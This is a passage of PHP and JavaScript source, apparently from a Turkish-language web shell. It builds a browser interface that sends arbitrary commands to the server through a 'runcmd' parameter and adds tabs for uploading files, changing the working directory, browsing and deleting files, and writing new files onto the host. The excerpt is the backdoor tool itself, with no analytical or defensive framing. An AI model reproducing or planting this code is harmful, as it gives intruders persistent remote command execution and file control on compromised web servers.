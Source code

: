         }
    }
    ajaxRequest.open(action, "?runcmd="+urltoopen , true);
	if(action == "GET")
	{
    ajaxRequest.send(null);
	}
    document.cmdform.command.value='';
    return false;
}

function set_tab_html(newhtml)
{
document.getElementById('commandtab').innerHTML = newhtml;
}

function set_tab(newtab)
{
	if(newtab == "cmd")
	{
		newhtml = '&nbsp;&nbsp;&nbsp;<form name="cmdform" onsubmit="return runcommand(document.cmdform.command.value,\'GET\');"><b>Command</b>: <input type=text name=command class=cmdthing size=100%><br></form>';
	}
	else if(newtab == "upload")
	{
		runcommand('upload','GET');
		newhtml = '<font size=0><b>Sayfa Yenilenecek...</b><br><br><form enctype="multipart/form-data" action="<?php print $ThisFile; ?>" method="POST"><input type="hidden" name="MAX_FILE_SIZE" value="10000000" />Dosya se: <input name="uploadedfile" type="file" /><br /><input type="submit" value="Upload File" /></form></font>';
	}
	else if(newtab == "workingdir")
	{
		<?php
        $folders = "<form name=workdir onsubmit=\"return runcommand(\'changeworkdir \' + document.workdir.changeworkdir.value,\'GET\');\"><input size=80% type=text name=changeworkdir value=\"";
        $pathparts = explode("/", realpath("."));
        foreach ($pathparts as $folder) {
            $folders.= $folder . "/";
        }
        $folders.= "\"><input type=submit value=Change></form><br>Script directory: <i style=\"cursor:crosshair\"  onclick=\"document.workdir.changeworkdir.value=\'" . dirname(__FILE__) . "\'>" . dirname(__FILE__) . "</i>";
?>
		newhtml = '<?php print $folders; ?>';
	}
	else if(newtab == "filebrowser")
	{
		newhtml = '<b>File browser is under construction! Use at your own risk!</b> <br>You can use it to change your working directory easily, don\'t expect too much of it.<br>Click on a file to edit it.<br><i>[W]</i> = set directory as working directory.<br><i>[D]</i> = delete file/directory';
		runcommand('listdir .','GET');
	}
	else if(newtab == "createfile")
	{
		newhtml = '<b>File Editor, under construction.</b>';
		document.getElementById('output').innerHTML = "<form name=\"saveform\"><textarea cols=70 rows=10 id=\"area1\"></textarea><br><input size=80 type=text name=filetosave value=\"<?php print realpath('.') . "/" . rand(1000, 999999) . ".txt"; ?>\"><input value=\"Save\" type=button onclick=\"SaveFile();\"></form>";

	}
		document.getElementById('commandtab').innerHTML = newhtml;
}